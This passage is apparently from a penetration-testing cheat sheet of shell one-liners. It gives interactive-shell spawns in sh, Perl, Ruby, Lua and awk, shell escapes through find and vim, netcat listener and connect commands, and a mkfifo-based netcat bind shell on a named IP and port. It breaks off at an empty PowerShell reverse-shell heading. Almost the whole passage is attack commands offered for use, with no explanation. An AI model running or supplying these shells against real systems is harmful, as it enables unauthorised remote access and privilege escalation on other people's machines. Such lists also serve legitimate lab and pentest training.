 ```bash
/bin/sh -i
```

#### Perl Interactive Shell

```bash
perl -e 'exec "/bin/sh";'
```

#### Ruby Interactive Shell

```ruby
exec "/bin/sh"
```

#### Lua Interactive Shell

```lua
os.execute('/bin/sh')
```

#### Awk Shell

```bash
awk 'BEGIN {system("/bin/sh")}'
```

#### Find Command for Shell Spawning

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}\;'
find . -exec /bin/sh \; -quit
```

#### Vim Shell Escape

```bash
vim -c ':!/bin/sh'
```

#### Start netcat listener on a specified port

```bash
sudo nc -lvnp <port #>
```

#### Connect to a netcat listener

```bash
nc -nv <ip_address> <port>
```

#### Bind shell using netcat

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

#### PowerShell Reverse Shell
